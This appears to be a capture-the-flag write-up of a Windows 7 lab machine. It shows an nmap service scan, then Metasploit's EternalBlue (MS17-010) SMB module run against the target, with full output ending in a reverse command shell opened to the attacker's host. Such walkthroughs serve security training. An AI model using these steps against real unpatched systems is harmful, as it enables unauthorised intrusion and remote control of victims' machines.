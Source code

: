 You know the drill - `nmap` time:

<pre>
<kw>root@kali:~</kw># nmap -sV 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.10.10.40
Host is up (0.20s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
</pre>

And... it's another SMB exploit.

This time, we know the box is running at least Windows 7, so the previous exploit won't do. However, this box is vulnerable to the infamous [EternalBlue](https://www.cvedetails.com/cve/CVE-2017-0144/) exploit, used in the WannaCry ransomware attack. There are a few metasploit modules for this, so let's start up `msfconsole` and get this writeup over with :)

<pre>
<kw>msf5 ></kw> use exploit/windows/smb/ms17_010_eternalblue
<kw>msf5 exploit(windows/smb/ms17_010_eternalblue) ></kw> set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
<kw>msf5 exploit(windows/smb/ms17_010_eternalblue) ></kw> exploit
[*] Started reverse TCP handler on 10.10.14.51:4444
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.51:4444 -> 10.10.10.40:49159) at 2019-09-01 11:57:44 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[&#42;] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

